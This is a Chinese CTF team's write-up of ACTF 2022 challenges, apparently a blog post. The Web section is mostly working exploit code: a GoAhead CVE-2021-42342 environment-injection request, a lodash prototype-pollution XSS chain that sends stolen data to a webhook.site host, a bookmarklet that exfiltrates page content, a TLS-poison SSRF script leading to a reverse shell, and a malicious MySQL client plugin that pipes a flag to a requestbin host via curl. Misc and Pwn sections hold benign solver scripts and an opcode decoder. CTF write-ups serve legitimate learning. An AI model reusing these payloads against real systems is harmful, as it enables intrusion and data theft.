本次2022 ACTF 我们 SU 取得了 第五名 的好成绩，感谢队里师傅们的辛苦付出！同时我们也在持续招人，只要你拥有一颗热爱 CTF 的心，都可以加入我们！欢迎发送个人简介至：[suers_xctf@126.com](mailto:suers_xctf@126.com)或直接联系书鱼(QQ:381382770)
以下是我们 SU 本次 2022 ACTF SU Writeup

<!--more-->

# Web

## gogogo

先看dockerfile

```Dockerfile
FROM debian:buster

RUN set -ex \
    && sed -i 's/deb.debian.org/mirrors.ustc.edu.cn/g' /etc/apt/sources.list && sed -i 's/security.debian.org/mirrors.ustc.edu.cn/g' /etc/apt/sources.list \
    && apt-get update \
    && apt-get install wget make gcc -y \
    && wget -qO- https://github.com/embedthis/goahead/archive/refs/tags/v5.1.4.tar.gz | tar zx --strip-components 1 -C /usr/src/ \
    && cd /usr/src \
    && make SHOW=1 ME_GOAHEAD_UPLOAD_DIR="'\"/tmp\"'" \
    && make install \
    && cp src/self.key src/self.crt /etc/goahead/ \
    && mkdir -p /var/www/goahead/cgi-bin/ \
    && apt-get purge -y --auto-remove wget make gcc \
    && cd /var/www/goahead \
    && rm -rf /usr/src/ /var/lib/apt/lists/* \
    && sed -e 's!^# route uri=/cgi-bin dir=cgi-bin handler=cgi$!route uri=/cgi-bin dir=/var/www/goahead handler=cgi!' -i /etc/goahead/route.txt

COPY flag /flag
RUN chmod 644 /flag
COPY hello /var/www/goahead/cgi-bin/hello
RUN chmod +x /var/www/goahead/cgi-bin/hello

RUN groupadd -r ctf && useradd -r -g ctf ctf
EXPOSE 8081

USER ctf
CMD ["goahead", "-v", "--home", "/etc/goahead", "/var/www/goahead", "0.0.0.0:8081"]
```

这里是用了一个goahead，而这里的hello路由放在了cgi-bin里面，而且输出了env



那么就不难找到是gohead的CVE-2021-42342，这个cve的内容是文件上传过滤器的处理缺陷，当与CGI处理程序一起使用时，可影响环境变量，从而导致RCE

记得p牛复现这个漏洞的时候踩坑专门写了篇[文章](https://www.leavesongs.com/PENETRATION/goahead-en-injection-cve-2021-42342.html) 

这和题目dockerfile如出一辙



而且我们的确可以传文件



接下来就是劫持LD_PRELOAD，对于这个东西的了解可以参考如下

> LD_PRELOAD 是 Linux 系统中的一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的目的。

我们编译一个so文件，因为可以操控env，那么我们传上去绑定LD_PRELOAD，然后就可以达到攻击的目的，但是我始终没复现成功

利用p牛复现的时候的技巧，添加脏字符让长度超过content-length还是没有起作用，不知道是不是没有注意到什么细节



后来发现p牛其实还发过一个[文章](https://www.leavesongs.com/PENETRATION/how-I-hack-bash-through-environment-injection.html)，也是关于环境变量攻击的




这里用

`BASH_FUNC_xxx%%=(){id;}`，把原函数给覆盖掉

然后看到hello里面，他是执行了env的，所以我们把env给覆盖掉

```Dockerfile
BASH_FUNC_env%%:(None,"() { cat /flag; exit; }")
```

即注册一个这样变量，让他执行env的时候，变成执行我们定义的函数内容

最后exp

```Python
import requests

payload = {
    "BASH_FUNC_env%%":(None,"() { cat /flag; exit; }"),
}

r = requests.post("http://123.60.84.229:10218/cgi-bin/hello",files=payload)
print(r.text)
```





## poorui

在 compile template 的时候用到了旧版本的 lodash，有 prototype pollution 可以打。

在 render image 时用了 <div {...attrs} />，可以传入自定义属性

传入 `is="abc"` 跟 `onanimationstart="JS_code"` 即可 XSS

做到 XSS 以后借由去复盖 JSON.stringify 改变传出去的 msg，再借由复盖 JSON.parse 拿到 response，即可拿到 flag

exp 如下 

```HTML
<!DOCTYPE html>
<html>
<head>
  
</head>
<body>
  <div id=logDiv></div>

  <script>
    let exp = btoa(`
window.send=(msg)=>{fetch('https://webhook.site/2f5fbcb1-c4aa-473a-adfd-23a7c5e19509?q='+encodeURIComponent(msg))};
send('start');
window.backup=JSON.stringify;window.backup2=JSON.parse;
JSON.stringify=function(json){
  JSON.stringify = backup;
  return backup({
    api: 'getflag'
  })
};
JSON.parse=function(str){
  send(str);
  return backup2(str)
};
document.querySelector('button[type=submit]').click();
    `)
    function log(msg) {
      console.log(msg)
      logDiv.innerText += msg + '\n'
    }
    let WS_URL = 'ws://124.71.181.238:8081'
    //WS_URL = 'ws://localhost:8081'
    const socket = new WebSocket(WS_URL)
    socket.onopen = () => {
        log('connected')
        const msg = {
            api: "ping",
            data: "hello world"
        }
        socket.send(JSON.stringify(msg))
        start()
    }

    socket.onmessage = (e) => {
        const msg = e.data
        log('received:'+msg)
    }

    socket.onclose = () => {
        console.log("closed")
    }

    function start() {
      // change here if you want to xss other use 
      const to = 'admin'
      
      // prototype pollution
      socket.send(JSON.stringify({
          api: 'sendmsg',
          to,
          msg: {
            type: 'tpl',
            data: {
              tpl: 'test.tpl',
              ctx: JSON.stringify({
                constructor: {
                  prototype: {
                    username: 1,
                    allowImage: true
                  }
                }
              })
            }
          }
      }))

      // trigger XSS
      setTimeout(() => {
        socket.send(JSON.stringify({
            api: 'sendmsg',
            to,
            msg: {
              type: 'image',
              data: {
                src: 'https://webhook.site/2f5fbcb1-c4aa-473a-adfd-23a7c5e19509?q=image',
                attrs: {
                  wow: 1,
                  is: 'abc',
                  onanimationstart: `eval(atob("${exp}"))`,
                  style: {
                    animation: '1s App-logo-spin'
                  }
                }
              }
            }
        }))
      }, 1000)
      
    }
  </script>

</body>

</html>
```

## beWhatYouWannaBe

```JavaScript
javascript:s=q=>window.open('https://vps?q='+encodeURIComponent(q));s('start');w=window.open('/flag');setTimeout(()=>{s('timeout');s(w.document.body.innerText)},1000)
```

## ToLeSion

TLS Poison 攻击通过FTPS被动模式 ssrf去打Memcached，写入session值为pickle反序列化payload。TLS 工具：https://github.com/ZeddYu/TLS-poison/ ，按照 setup 做好初始化后，使用如下命令开启 rustls 的转发功能，将 TLS 上层流量转发到 2048 端口：

```
TLS-poison/client-hello-poisoning/custom-tls/target/debug/custom-tls -p 11211 --certs /home/ubuntu/tls/fullchain.pem --key /home/ubuntu/tls/privkey.pem forward 2048 
import socketserver, threading, requests, subprocess,time, base64, secrets,sys, hashlib, os
import redis, secrets, re
 


# https://github.com/jmdx/TLS-poison modified for accepting 32 bytes injections
os.system(f'nohup /home/ubuntu/TLS-poison/client-hello-poisoning/custom-tls/target/debug/custom-tls -p 11211 --certs /home/ubuntu/tls/fullchain.pem --key /home/ubuntu/tls/privkey.pem forward 2048 --verbose >run.log 2>&1 &')

class MyTCPHandler(socketserver.StreamRequestHandler):
    def handle(self):
        print('[+] connected', self.request, file=sys.stderr)
        self.request.sendall(b'220 (vsFTPd 3.0.3)\r\n')

        self.data = self.rfile.readline().strip().decode()
        print(self.data, file=sys.stderr,flush=True)
        self.request.sendall(b'230 Login successful.\r\n')

        self.data = self.rfile.readline().strip().decode()
        print(self.data, file=sys.stderr)
        self.request.sendall(b'227 yolo\r\n')

        self.data = self.rfile.readline().strip().decode()
        print(self.data, file=sys.stderr)
        self.request.sendall(b'227 yolo\r\n')

        self.data = self.rfile.readline().strip().decode()
        print(self.data, file=sys.stderr)
        self.request.sendall(b'257 "/" is the current directory\r\n')

        if True:
            self.data = self.rfile.readline().strip().decode()
            print(self.data, file=sys.stderr)
            if f'CWD {secret_path}' != self.data:
                return
            self.request.sendall(b'250 Directory successfully changed.\r\n')

            self.data = self.rfile.readline().strip().decode()
            print(self.data, file=sys.stderr)
            self.request.sendall(b'250 Directory successfully changed.\r\n')

        self.data = self.rfile.readline().strip().decode()
        print(self.data, file=sys.stderr)
        self.request.sendall(b'227 Entering Passive Mode (127,0,0,1,43,192)\r\n')

        self.data = self.rfile.readline().strip().decode()
        print(self.data, file=sys.stderr)
        self.request.sendall(b'227 Entering Passive Mode (127,0,0,1,43,192)\r\n')

        self.data = self.rfile.readline().strip().decode()
        print(self.data, file=sys.stderr)
        self.request.sendall(b'200 Switching to Binary mode.\r\n')

        self.data = self.rfile.readline().strip().decode()
        assert 'SIZE refs' == self.data, self.data
        print(self.data, file=sys.stderr)
        self.request.sendall(b'213 7\r\n')

        self.data = self.rfile.readline().strip().decode()
        print(self.data, file=sys.stderr)
        self.request.sendall(b'150 Opening BINARY mode data connection for refs (7 bytes).\r\n')

        print(sess.get(url, params={'url': cmd}).text)
        self.data = self.rfile.readline().strip().decode()
        print(self.data, file=sys.stderr)
        self.request.sendall(b'250 Requested file action okay, completed.')
        exit()

def ftp_worker():
    with socketserver.TCPServer(('0.0.0.0', 2048), MyTCPHandler) as server:
        while True:
            server.handle_request()
threading.Thread(target=ftp_worker).start()
```

再用写入的cookie去访问即可触发，反弹shell拿flag

## myclient

1. 使用 MYSQLI_INIT_COMMAND 选项 + INTO DUMPFILE，写一个 evil mysql 客户端认证库到 /tmp/e10adc3949ba59abbe56e057f20f883e
2. 使用 MYSQLI_INIT_COMMAND 选项 + INTO DUMPFILE 写入一个 Defaults 配置，其中group=client plugin-dir=/tmp/e10adc3949ba59abbe56e057f20f883e 和  default-auth=<name of library file - extension>
3. 使用 MYSQLI_READ_DEFAULT_FILE 选项设置为 /tmp/e10adc3949ba59abbe56e057f20f883e/<writtenConfigFile> 来加载一个恶意的配置文件，该文件将触发我们的 evil.so ，然后触发 init 函数。
4. RCE


evil.c:

```C
#include <mysql/client_plugin.h>
#include <mysql.h>
#include <stdio.h>

/*
Ubuntu x86_64:
apt install libmysqlclient-dev
gcc -shared -I /usr/include/mysql/ -o evilplugin.so evilplugin.c
NOTE: the plugin_name MUST BE the full name with the directory traversal!!!
*/

static int evil_init(char * a, size_t b , int c , va_list ds)
{
    system("/readflag | curl -XPOST http://dnsdatacheck.7twx8in3gacdrrvq.b.requestbin.net/xxd -d @-");
    return NULL;
}

static int evilplugin_client(MYSQL_PLUGIN_VIO *vio, MYSQL *mysql)
{
int res;
  res= vio->write_packet(vio, (const unsigned char *) mysql->passwd, strlen(mysql->passwd) + 1);
  return CR_OK;
}

mysql_declare_client_plugin(AUTHENTICATION)
  "auth_simple",  /* plugin name */
  "Author Name",                        /* author */
  "Any-password authentication plugin", /* description */
  {1,0,0},                              /* version = 1.0.0 */
  "GPL",                                /* license type */
  NULL,                                 /* for internal use */
  evil_init,                                 /* no init function */
  NULL,                                 /* no deinit function */
  NULL,                                 /* no option-handling function */
  evilplugin_client                    /* main function */
mysql_end_client_plugin;
```


```Python
import requests
import random
import string
import codecs

def genName():
    return random.choice(string.ascii_letters) + random.choice(string.ascii_letters) + random.choice(string.ascii_letters)+ random.choice(string.ascii_letters) + random.choice(string.ascii_letters) + random.choice(string.ascii_letters) + random.choice(string.ascii_letters) +random.choice(string.ascii_letters)


url = "http://124.71.205.170:10047/index.php"

shell = open("exp.so","rb").read()
n = 100
chunks = [shell[i:i+n] for i in range(0, len(shell), n)]

print(len(chunks))

prefix = genName()
for idx in range(len(chunks)):
    name = '/tmp/e10adc3949ba59abbe56e057f20f883e/' + prefix+"_CHUNK"+str(idx);
    chunk = chunks[idx];
    x = "0x" +codecs.encode(chunk,'hex').decode()
    if idx != 0 and idx != len(chunks)-1:
        previus_name = '/tmp/e10adc3949ba59abbe56e057f20f883e/' + prefix+"_CHUNK"+str(idx-1)
        sql = f"SELECT concat(LOAD_FILE('{previus_name}'), {x}) INTO DUMPFILE '{name}'"
        r = requests.get(url,params={"key":"3", "value": sql})
        print(r.text)
        print(name)
    elif idx == len(chunks)-1:
        previus_name = '/tmp/e10adc3949ba59abbe56e057f20f883e/' + prefix+"_CHUNK"+str(idx-1)
        sql = f"SELECT concat(LOAD_FILE('{previus_name}'), {x}) INTO DUMPFILE '/tmp/e10adc3949ba59abbe56e057f20f883e/auth_simple.so'"
        r = requests.get(url,params={"key":"3", "value": sql})
        print(r.text)
        open("name","w").write("auth_simple")
        print("auth_simple")
    else:
        sql = f"SELECT {x} INTO DUMPFILE '{name}'"
        r = requests.get(url,params={"key":"3", "value": sql})
        print(r.text)
```


# Misc

## signin

shell脚本，和文件放一个目录解压

```Plain%20Text
#!bin/bash

mkdir 'out'
while true
do
    7z x flag* -o"./out/"
    if [ $? = 0 ]; then
        rm ./flag*
        mv ./out/* ./
    else
        cat flag*
        break
    fi
done
```

得到flag

## Mahjoong

可以直接挂机得到flag，大满贯


或者直接看源码 webpack://majiang/src/js/majiang/util/hule.js

```JavaScript
let a = [240,188,218,205,188,154,138,200,207,33,26,246,30,136,124,38,241,178,193,127,163,161,72,140,187,16,19];
let b = [177, 255, 142, 139, 199, 227, 202, 163, 186, 76, 91, 152, 65, 185, 15, 121, 152, 220, 162, 13, 198, 197, 36, 191, 215, 117, 110];
let c = new Array(27);
for(var i = 0 ;i < 27; i++){
    c[i] = String.fromCharCode(a[i] ^ b[i]);        
}
alert(c.join(''));
```

ACTF{y@kumAn_1s_incredl3le}


## safer-telegram-bot-1

去 tg bot 不停地发一堆 /login，碰个时间，蹲到哪个没 rejected，点一下 login 就能拿到 flag1 了

不行的话多试几次就有了，乐


## signoff

填问卷


# Pwn

## mykvm

```Python
# opcode X
# case 1
for i in range(0x1000, 0x10000):
    op_code = i >> 8
    X = i & 0xff
    if (op_code & 0x1f) != 0x11:
        continue
    idx_1 = (X & 3) * 2 + (op_code >> 7)
    idx_2 = (X >> 2) & 7
    idx_3 = X >> 5
    reg_1 = "R" + str(idx_1)
    reg_2 = "R" + str(idx_2)
    reg_3 = "R" + str(idx_3)
    vm_type_arr = ['(int8)','(int16)','int(32)','int(64)']
    vm_type_num = (op_code >> 5) & 3
    vm_type = vm_type_arr[vm_type_num]
    machine_code = "".join("%02X" % op_code)
    machine_code += " "
    machine_code += "".join("%02X" % X)
    machine_code += " : "
    out = machine_code + reg_1 + " = " + vm_type + "(" + reg_2 + " + " + reg_3 + ")"
    print(out)

# opcode X Y
# case 1
for i in range(0x1000, 0x10000):
    op_code = i >> 8
    X = i & 0xff
    if (op_code & 0x1f) != 0x01:
        continue
    vm_type_arr = ['(int8)','(int16)','int(32)','int(64)']
    vm_type_num = (op_code >> 5) & 3
    vm_type = vm_type_arr[vm_type_num]
    idx_1 = (X & 3) * 2 + (op_code >> 7)
    idx_2 = (X >> 2) & 7
    reg_1 = "R" + str(idx_1)
    reg_2 = "R" + str(idx_2)
    machine_code = "".join("%02X" % op_code)
    machine_code += " "
    machine_code += "".join("%02X" % X)
    machine_code += " Y : "
    out = machine_code + reg_1 + " = " + vm_type + "(" + reg_2 + " + " + "Y" + ")"
    print(out)

# opcode X
# case 2
for i in range(0x1000, 0x10000):
    op_code = i >> 8
    X = i & 0xff
    if (op_code & 0x1f) != 0x12:
        continue
    idx_1 = (X & 3) * 2 + (op_code >> 7)
    idx_2 = (X >> 2) & 7
    idx_3 = X >> 5
    reg_1 = "R" + str(idx_1)
    reg_2 = "R" + str(idx_2)
    reg_3 = "R" + str(idx_3)
    vm_type_arr = ['(int8)','(int16)','int(32)','int(64)']
    vm_type_num = (op_code >> 5) & 3
    vm_type = vm_type_arr[vm_type_num]
    machine_code = "".join("%02X" % op_code)
    machine_code += " "
    machine_code += "".join("%02X" % X)
    machine_code += " : "
    out = machine_code + reg_1 + " = " + vm_type + "(" + reg_2 + " - " + reg_3 + ")"
    print(out)

# opcode X Y
# case 2
for i in range(0x1000, 0x10000):
    op_code = i >> 8
    X = i & 0xff
    if (op_code & 0x1f) != 0x02:
        continue
    vm_type_arr = ['(int8)','(int16)','int(32)','int(64)']
    vm_type_num = (op_code >> 5) & 3
    vm_type = vm_type_arr[vm_type_num]
    idx_1 = (X & 3) * 2 + (op_code >> 7)
    idx_2 = (X >> 2) & 7
    reg_1 = "R" + str(idx_1)
    reg_2 = "R" + str(idx_2)
    machine_code = "".join("%02X" % op_code)
    machine_code += " "
    machine_code += "".join("%02X" % X)
    machine_code += " Y : "
    out = machine_code + reg_1 + " = " + vm_type + "(" + reg_2 + " - " + "Y" + ")"
    print(out)

# opcode X
# case 3
for i in range(0x1000, 0x10000):
    op_code = i >> 8
    X = i & 0xff
    if (op_code & 0x1f) != 0x13:
        continue
    idx_1 = (X & 3) * 2 + (op_code >> 7)
    idx_2 = (X >> 2) & 7
    idx_3 = X >> 5
    reg_1 = "R" + str(idx_1)
    reg_2 = "R" + str(idx_2)
    reg_3 = "R" + str(idx_3)
    vm_type_arr = ['(int8)','(int16)','int(32)','int(64)']
    vm_type_num = (op_code >> 5) & 3
    vm_type = vm_type_arr[vm_type_num]
    machine_code = "".join("%02X" % op_code)
    machine_code += " "
    machine_code += "".join("%02X" % X)
    machine_code += " : "
    out = machine_code + reg_1 + " = " + vm_type + "(" + reg_2 + " * " + reg_3 + ")"
    print(out)

# opcode X Y
# case 3
for i in range(0x1000, 0x10000):
    op_code = i >> 8
    X = i & 0xff
    if (op_code & 0x1f) != 0x03:
        continue
    vm_type_arr = ['(int8)','(int16)','int(32)','int(64)']
    vm_type_num = (op_code >> 5) & 3
    vm_type = vm_type_arr[vm_type_num]
    idx_1 = (X & 3) * 2 + (op_code >> 7)
    idx_2 = (X >> 2) & 7
    reg_1 = "R" + str(idx_1)
    reg_2 = "R" + str(idx_2)
    machine_code = "".join("%02X" % op_code)
    machine_code += " "
    machine_code += "".join("%02X" % X)
    machine_code += " Y : "
    out = machine_code + reg_1 + " = " + vm_type + "(" + reg_2 + " * " + "Y" + ")"
    print(out)

# opcode X
# case 4
for i in range(0x1000, 0x10000):
    op_code = i >> 8
    X = i & 0xff
    if (op_code & 0x1f) != 0x14:
        continue
    idx_1 = (X & 3) * 2 + (op_code >> 7)
    idx_2 = (X >> 2) & 7
    idx_3 = X >> 5
    reg_1 = "R" + str(idx_1)
    reg_2 = "R" + str(idx_2)
    reg_3 = "R" + str(idx_3)
    vm_type_arr = ['(int8)','(int16)','int(32)','int(64)']
    vm_type_num = (op_code >> 5) & 3
    vm_type = vm_type_arr[vm_type_num]
    machine_code = "".join("%02X" % op_code)
    machine_code += " "
    machine_code += "".join("%02X" % X)
    machine_code += " : "
    out = machine_code + reg_1 + " = " + vm_type + "(" + reg_2 + " / " + reg_3 + ")"
    print(out)

# opcode X Y
# case 4
for i in range(0x1000, 0x10000):
    op_code = i >> 8
    X = i & 0xff
    if (op_code & 0x1f) != 0x04:
        continue
    vm_type_arr = ['(int8)','(int16)','int(32)','int(64)']
    vm_type_num = (op_code >> 5) & 3
    vm_type = vm_type_arr[vm_type_num]
    idx_1 = (X & 3) * 2 + (op_code >> 7)
    idx_2 = (X >> 2) & 7
    reg_1 = "R" + str(idx_1)
    reg_2 = "R" + str(idx_2)
    machine_code = "".join("%02X" % op_code)
    machine_code += " "
    machine_code += "".join("%02X" % X)
    machine_code += " Y : "
    out = machine_code + reg_1 + " = " + vm_type + "(" + reg_2 + " / " + "Y" + ")"
    print(out)

# opcode X Y Y
# case 5
for i in range(0x1000, 0x10000):
    op_code = i >> 8
    X = i & 0xff
    if (op_code & 0xf) != 0x5:
        continue
    idx_1 = (X & 3) * 2 + (op_code >> 7)
    reg_1 = "R" + str(idx_1)
    vm_type_arr = ['(int8)','(int16)','int(32)','int(64)']
    vm_type_num = (op_code >> 5) & 3
    vm_type = vm_type_arr[vm_type_num]
    machine_code = "".join("%02X" % op_code)
    machine_code += " "
    machine_code += "".join("%02X" % X)
    machine_code += " Y Y : "
    out = machine_code + reg_1 + " = " + vm_type + "(" + "DATA[" + "YY"+ "])"
    print(out)

# opcode X Y Y
# case 6
for i in range(0x1000, 0x10000):
    op_code = i >> 8
    X = i & 0xff
    if (op_code & 0xf) != 0x6:
        continue
    idx_1 = (X & 3) * 2 + (op_code >> 7)
    reg_1 = "R" + str(idx_1)
    vm_type_arr = ['(int8)','(int16)','int(32)','int(64)']
    vm_type_num = (op_code >> 5) & 3
    vm_type = vm_type_arr[vm_type_num]
    machine_code = "".join("%02X" % op_code)
    machine_code += " "
    machine_code += "".join("%02X" % X)
    machine_code += " Y Y : "
    out = machine_code + vm_type + "(" + "DATA[" + "YY"+ "])" + " = " + vm_type + "(" + reg_1 + ")"
    print(out)

#####################################


# opcode X
# case 7
for i in range(0x1000, 0x10000):
    op_code = i >> 8
    X = i & 0xff
    if (op_code & 0x1f) != 0x17:
        continue
    idx_1 = (X & 3) * 2 + (op_code >> 7)
    idx_2 = (X >> 2) & 7
    idx_3 = X >> 5
    reg_1 = "R" + str(idx_1)
    reg_2 = "R" + str(idx_2)
    reg_3 = "R" + str(idx_3)
    vm_type_arr = ['(int8)','(int16)','int(32)','int(64)']
    vm_type_num = (op_code >> 5) & 3
    vm_type = vm_type_arr[vm_type_num]
    machine_code = "".join("%02X" % op_code)
    machine_code += " "
    machine_code += "".join("%02X" % X)
    machine_code += " : "
    out = machine_code + "push " + reg_1
    print(out)

# opcode X Y
# case 7
for i in range(0x1000, 0x10000):
    op_code = i >> 8
    X = i & 0xff
    if (op_code & 0x1f) != 0x07:
        continue
    vm_type_arr = ['(int8)','(int16)','int(32)','int(64)']
    vm_type_num = (op_code >> 5) & 3
    vm_type = vm_type_arr[vm_type_num]
    idx_1 = (X & 3) * 2 + (op_code >> 7)
    idx_2 = (X >> 2) & 7
    reg_1 = "R" + str(idx_1)
    reg_2 = "R" + str(idx_2)
    machine_code = "".join("%02X" % op_code)
    machine_code += " "
    machine_code += "".join("%02X" % X)
    machine_code += " Y : "
    out = machine_code + "push Y ; 这里的 Y 为8个字节的大小"
    print(out)


##############


# opcode X
# case 8
for i in range(0x1000, 0x10000):
    op_code = i >> 8
    X = i & 0xff
    if (op_code & 0xf) != 0x8:
        continue
    idx_1 = (X & 3) * 2 + (op_code >> 7)
    reg_1 = "R" + str(idx_1)
    machine_code = "".join("%02X" % op_code)
    machine_code += " "
    machine_code += "".join("%02X" % X)
    machine_code += " : "
    out = machine_code + "pop " + reg_1
    print(out)

# opcode X Y Y
# case 0x9
for i in range(0x1000, 0x10000):
    op_code = i >> 8
    X = i & 0xff
    if (op_code & 0xf) != 0x9:
        continue
    machine_code = "".join("%02X" % op_code)
    machine_code += " "
    machine_code += "".join("%02X" % X)
    machine_code += " Y Y : "
    out = machine_code + "jmp YY"
    print(out)

# opcode X YY
# case 0xa
for i in range(0x1000, 0x10000):
    op_code = i >> 8
    X = i & 0xff
    if (op_code & 0xf) != 0xa:
        continue
    idx_1 = (X & 3) * 2 + (op_code >> 7)
    idx_2 = (X >> 2) & 7
    idx_3 = X >> 5
    reg_1 = "R" + str(idx_1)
    reg_2 = "R" + str(idx_2)
    reg_3 = "R" + str(idx_3)
    vm_type_arr = ['(int8)','(int16)','int(32)','int(64)']
    vm_type_num = (op_code >> 5) & 3
    vm_type = vm_type_arr[vm_type_num]
    machine_code = "".join("%02X" % op_code)
    machine_code += " "
    machine_code += "".join("%02X" % X)
    machine_code += " Y Y: "
    out = machine_code + "if " + reg_2 + " == " + reg_3 + " --> jmp " + "YY"
    print(out)

# opcode X YY
# case 0xb
for i in range(0x1000, 0x10000):
    op_code = i >> 8
    X = i & 0xff
    if (op_code & 0xf) != 0xb:
        continue
    idx_1 = (X & 3) * 2 + (op_code >> 7)
    idx_2 = (X >> 2) & 7
    idx_3 = X >> 5
    reg_1 = "R" + str(idx_1)
    reg_2 = "R" + str(idx_2)
    reg_3 = "R" + str(idx_3)
    vm_type_arr = ['(int8)','(int16)','int(32)','int(64)']
    vm_type_num = (op_code >> 5) & 3
    vm_type = vm_type_arr[vm_type_num]
    machine_code = "".join("%02X" % op_code)
    machine_code += " "
    machine_code += "".join("%02X" % X)
    machine_code += " Y Y: "
    out = machine_code + "if " + reg_2 + " != " + reg_3 + " --> jmp " + "YY"
    print(out)

# opcode X YY
# case 0xc
for i in range(0x1000, 0x10000):
    op_code = i >> 8
    X = i & 0xff
    if (op_code & 0xf) != 0xc:
        continue
    machine_code = "".join("%02X" % op_code)
    machine_code += " "
    machine_code += "".join("%02X" % X)
    machine_code += " Y Y: "
